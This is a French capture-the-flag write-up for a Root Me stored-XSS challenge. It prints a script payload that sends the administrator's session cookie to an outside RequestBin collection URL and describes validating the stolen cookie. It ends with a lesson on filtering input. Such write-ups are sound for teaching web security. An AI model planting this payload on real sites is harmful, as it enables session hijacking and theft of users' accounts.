

# Compte Rendu : CTF - Root Me Challenge

## **Challenge : XSS - Stockée 1**  
- **Points :** 30  
- **Niveau :** Du gâteau 🍰  
- **Objectif :** Volez le cookie de session de l’administrateur pour valider l’épreuve.  

---

## **Étape 1 : Préparation de notre piège**  
- Rendez-vous sur **[http://requestbin.com](http://requestbin.com)** (notre "filet à cookies") et générez un lien unique.  
 
- Vous obtiendrez un URL du type :  
```
http://requestbin.com/XXXXXX
```

C’est là que nous allons capturer le précieux **cookie de l’admin**. 🕵️‍♂️  

---

## **Étape 2 : Pose du piège (machiavélique 😈)**  
1. Accédez au formulaire permettant de poster un message sur le site du challenge.  
2. Dans le champ message, insérez l’innocent petit script suivant :  
 ```
 <script>
 document.location.href = 'http://requestbin.com/XXXXXX?cookies=' + document.cookie;
 </script>
 ```

Note : Remplacez XXXXXX par le code généré par RequestBin.

## **Étape 3 : L’attente du Graal (le cookie 🍪)**  
- Prenez votre mal en patience pendant que l’administrateur, innocent comme un hobbit au Mordor, exécute votre script sans s’en douter.  
- Retournez sur votre page **RequestBin** et rafraîchissez-la régulièrement. 🌀  
- Lorsque l’admin aura mordu à l’hameçon, vous verrez apparaître une ligne du genre :  

```
cookies=ADMIN_COOKIE=NkI9qe4[...]sWS8ofD6
```

---

## **Étape 4 : Validation de l’épreuve 🏆**  
- Copiez la précieuse valeur de **ADMIN_COOKIE** :  

```
NkI9qe4[...]sWS8ofD6
```
- Collez-la dans le champ de validation du challenge. Et voilà, le Graal est à vous ! 🎉  

---

## **Conclusion : Une leçon bien apprise 🍪**  
Ce challenge illustre parfaitement la dangerosité des failles XSS stockées. Même un script aussi simple peut provoquer des dégâts considérables si les entrées utilisateur ne sont pas correctement filtrées.  

🎩 **Moralité :** Toujours **filtrer** et **échapper** les entrées utilisateur. Sinon, vos cookies finiront volés (et non, ce ne seront pas des cookies au chocolat). 🍫  
